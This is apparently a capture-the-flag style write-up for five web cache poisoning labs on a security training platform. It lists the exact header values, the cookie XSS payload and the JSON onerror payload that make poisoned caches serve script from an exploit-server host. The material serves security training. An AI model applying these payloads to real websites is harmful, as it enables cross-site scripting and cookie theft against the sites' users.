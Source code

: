 # Exploiting cache design flaws
1. This lab has a basic cache poisoning attack where the unkeyed header `X-Forwarded-For` is used to dynamically generate a link to an external script. As such, by changing the exploit server's exploit page to be `/resources/js/tracking.js` and sending a request with the following header added, the cache can be poisoned to execute arbitrary javascript as is set in the exploit server: `X-Forwarded-Host: exploit-ac2e1fa71f190dabc0461bbf01f80054.web-security-academy.net`
2. This lab has a bug where the `Cookie` header is unkeyed, and one of the cookies is reflected within a script block. As such, sending a request with the following cookie can be used to cause XSS via cache poisoning: `fehost="}-alert(document.cookie)-{"asdf":"`
3. This lab has a bug where the request to `/resources/js/tracking.js` can be poisoned through a combination of the `X-Forwarded-Scheme` and `X-Forwarded-Host` headers. When the `X-Forwarded-Scheme` header is present and has a value of anything other than `https`, it returns a dynamically created redirection to the HTTPS version. It will use the `X-Forwarded-Host` value in this redirection, if it is present. As such, setting the exploit server to return `alert(document.cookie)` in response to `GET /resources/js/tracking.js` allows the following headers to poison the GET request and result in XSS:
```
X-Forwarded-Scheme: asdf
X-Forwarded-Host: exploit-acc71f921e3efb2ec0ef0c52015b0021.web-security-academy.net
```
4. This lab has a cache poisoning attack like the first lab, but with the `X-Host` header instead. However, the `User-Agent` header is keyed as well. As such, the user agent of the target must be discovered. This can be done by posting a comment with an image pointing to the exploit server, where the user agent can be seen. As such, the same steps as lab 1 can be followed, but with the following headers set to poison the cache:
```
X-Host: exploit-aca81f841e4b792ec0feb4c70164001b.web-security-academy.net
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.82 Safari/537.36
```
5. This lab has a cache poisoning attack where the `X-Forwarded-Host` header is used to generate a link to JSON data that is handled unsafely, resulting in a DOM-based XSS vulnerability. By setting the exploit server's endpoint to `/resources/json/geolocate.json`, adding the `Access-Control-Allow-Origin: *` header to disable CORS, and setting the content to `{"country": "<img src=x onerror=alert(document.cookie)"}`, the cache poisoning attack can be triggered by sending a request with the following header: `X-Forwarded-Host: exploit-acee1f8a1f8d8321c0789c210182007d.web-security-academy.net`. This lab does not allow caching of responses that contain the `Set-Cookie` header, so the attack has to be performed after receiving a session cookie.

